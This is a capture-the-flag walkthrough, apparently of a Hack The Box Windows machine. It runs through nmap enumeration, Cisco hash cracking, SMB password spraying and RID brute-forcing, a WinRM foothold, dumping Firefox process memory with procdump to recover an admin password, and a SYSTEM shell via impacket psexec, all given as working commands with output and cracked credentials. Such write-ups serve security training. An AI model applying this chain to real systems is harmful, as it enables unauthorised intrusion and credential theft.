





Target: 10.10.10.149

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.149 -p-

Nmap scan report for 10.10.10.149
Host is up (0.12s latency).
Not shown: 65530 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

checking 10.10.10.149



checking login as guest



checking attachment



cracking hashes
```
$ hashcat -m 500 -o crack.txt nhash.txt /usr/share/wordlists/rockyou.txt

$ cat crack.txt

$1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent
```

[cisco password cracker link](https://www.ifm.net.nz/cookbooks/passwordcracker.html)





Loot:

`stealth1agent`
`$uperP@ssword`
`Q4)sJu\Y8qz*A3?d`


### Findings:Looking for attack vectors

Test for password re-use.


## Foothold:

bruteforcing smb logins with user hazard and found passwords 
```
$ crackmapexec smb 10.10.10.149 -u hazard -p stealth1agent

SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
```

Loot:

`hazard:stealth1agent`

testing creds in evil-winrm
```
$ evil-winrm -i 10.10.10.149 -u hazard -p stealth1agent

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1
```

/user hazard has no access to winrm but can still access smb. try bruteforcing other users using rid.

bruteforcing rid with crackmapexec
```
$ crackmapexec smb 10.10.10.149  -u hazard -p stealth1agent --rid-brute

SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [+] Brute forcing RIDs
SMB         10.10.10.149    445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.10.10.149    445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)
```

bruteforcing smb logins with user chase/jason and found passwords
```
$ crackmapexec smb 10.10.10.149  -u chase -p "Q4)sJu\Y8qz*A3?d"

SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d
```

Loot:

`chase:Q4)sJu\Y8qz*A3?d`

```
$ evil-winrm -i 10.10.10.149 -u chase -p "Q4)sJu\Y8qz*A3?d"           

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Chase\Documents> whoami

supportdesk\chase
```

```
*Evil-WinRM* PS C:\Users\Chase\Documents> cd ..\Desktop

*Evil-WinRM* PS C:\Users\Chase\Desktop> dir

    Directory: C:\Users\Chase\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/22/2019   9:08 AM            121 todo.txt
-a----        4/22/2019   9:07 AM             32 user.txt

*Evil-WinRM* PS C:\Users\Chase\Desktop> type user.txt

<redacted>
```


## Priv Escalations:

looking for suspicous file/s
```
*Evil-WinRM* PS C:\Users\Chase\Desktop> type todo.txt

Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```

looking for suspicous file/s
```
*Evil-WinRM* PS C:\Users\Chase\Desktop> cd C:\

*Evil-WinRM* PS C:\> cd 'Program Files'

*Evil-WinRM* PS C:\Program Files> dir

    Directory: C:\Program Files


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/21/2019   9:39 AM                Common Files
d-----        4/21/2019  11:00 AM                internet explorer
d-----        2/18/2021   4:21 PM                Mozilla Firefox
d-----        4/22/2019   6:47 AM                PHP
d-----        4/22/2019   6:46 AM                Reference Assemblies
d-----        4/22/2019   6:46 AM                runphp
d-----        2/18/2021   4:05 PM                VMware
d-r---        4/21/2019  11:00 AM                Windows Defender
d-----        4/21/2019  11:00 AM                Windows Defender Advanced Threat Protection
d-----        9/15/2018  12:49 PM                Windows Mail
d-----        4/21/2019  11:00 AM                Windows Media Player
d-----        9/15/2018  12:49 PM                Windows Multimedia Platform
d-----        9/15/2018  12:58 PM                windows nt
d-----        4/21/2019  11:00 AM                Windows Photo Viewer
d-----        9/15/2018  12:49 PM                Windows Portable Devices
d-----        9/15/2018  12:49 PM                Windows Security
d-----        9/15/2018  12:49 PM                WindowsPowerShell
```

enumerate running processes
```
*Evil-WinRM* PS C:\Program Files> Get-Process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    458      17     2184       4760               376   0 csrss
    290      13     2244       4588               496   1 csrss
    360      15     3484      13992              4872   1 ctfmon
    250      14     3868      12876              3660   0 dllhost
    166       9     1860       9808       0.05   5896   1 dllhost
    622      33    28544      56416               988   1 dwm
   1489      58    24136      79272              3720   1 explorer
    379      28    21948      58736       0.81    476   1 firefox
    355      25    16304      38936       0.33   2016   1 firefox
   1079      69   140384     216500      12.13   6940   1 firefox
    347      19     9856      31512       0.22   7064   1 firefox
    401      33    31536      91096       1.95   7164   1 firefox
<snip>
```

dump process
```
*Evil-WinRM* PS C:\Users\Chase\Documents> upload /home/kali/Downloads/procdump64.exe

Info: Uploading /home/kali/Downloads/procdump64.exe to C:\Users\Chase\Documents\procdump64.exe

                                                             
Data: 513184 bytes of 513184 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\Chase\Documents> ./procdump64.exe -accepteula

*Evil-WinRM* PS C:\Users\Chase\Documents> ./procdump64.exe -ma 476

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[11:28:02] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_210723_112802.dmp
[11:28:02] Dump 1 writing: Estimated dump file size is 307 MB.
[11:28:04] Dump 1 complete: 307 MB written in 2.0 seconds
[11:28:04] Dump count reached.

*Evil-WinRM* PS C:\Users\Chase\Documents> download firefox.exe_210723_112802.dmp

Info: Downloading C:\Users\Chase\Documents\firefox.exe_210723_112802.dmp to firefox.exe_210723_112802.dmp

                                                             
Info: Download successful!
```


```
$ strings firefox.exe_210723_112802.dmp | grep password

password
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
<snip>
```

Loot:

`admin:4dD!5}x/re8]FBuZ`

testing for password re-use
```
$ psexec.py Administrator:'4dD!5}x/re8]FBuZ'@10.10.10.149

Impacket v0.9.24.dev1+20210611.72516.1a5ed9dc - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.149.....
[*] Found writable share ADMIN$
[*] Uploading file LoxMuAhM.exe
[*] Opening SVCManager on 10.10.10.149.....
[*] Creating service uhaW on 10.10.10.149.....
[*] Starting service uhaW.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.437]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

nt authority\system
```

```
C:\Windows\system32>cd C:\Users\Administrator\Desktop
 
C:\Users\Administrator\Desktop>type root.txt

<redacted>
```